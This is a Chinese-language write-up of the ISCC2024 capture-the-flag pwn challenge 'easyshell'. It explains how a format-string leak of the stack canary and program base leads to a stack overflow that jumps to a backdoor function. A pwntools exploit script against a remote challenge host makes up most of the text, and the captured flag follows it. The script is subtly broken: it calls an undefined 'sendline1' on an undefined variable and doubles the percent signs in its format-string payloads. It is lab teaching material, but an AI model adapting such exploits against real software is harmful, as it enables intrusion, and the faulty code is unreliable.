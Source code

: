 # ISCC2024 WriteUp

GX-rainbow + 杨智林 + 3436865331@qq.com

# 练武题PWN——ISCC_easyshell分析

checksec一下

![image-20240520203632987](image/image-20240520203632987.png)

打开IDA，查看反编译

<img src="image/image-20240520203730114.png" alt="image-20240520203730114" style="zoom:67%;" />

进入core_code函数，可以看到一个栈溢出和一个格式化字符串

<img src="image/image-20240520203850739.png" alt="image-20240520203850739" style="zoom:67%;" />

我们利用格式化字符串漏洞，泄露canary，拿到canary的值，再泄露backdoor函数的地址，最后进行getshell

# exp

```python
from pwn import *
io = remote('182.92.237.102',10011)#你的靶机
#io=process('./attachment-13')
elf = ELF('./attachment-13')
payload1 = b'flagis%%15$p'
io.recvuntil(b'>>')
io.sendline1(payload)
canary = int(io.recvline()[:18],16)
payload2 = b'flagis%%17$p'
io.recvuntil(b'>>')
io.sendline(payload2)
base = int(io.recvline()[:14],16)-254-elf.sym['main']
# print(hex(program_base))
backdoor = base + 0x1291
payload3 = b'A' * 0x38 + p64(canary) + p64(0) + p64(backdoor)
io.recvuntil(b'>>')
io.sendline(payload3)
io.recvuntil(b'>>')
io.sendline(b'exit')
io.interactive()
```



# flag

```
ISCC{abpdb5iuKAu2MrTv0Y2R11aBJXWK5RmDyL3o}
```

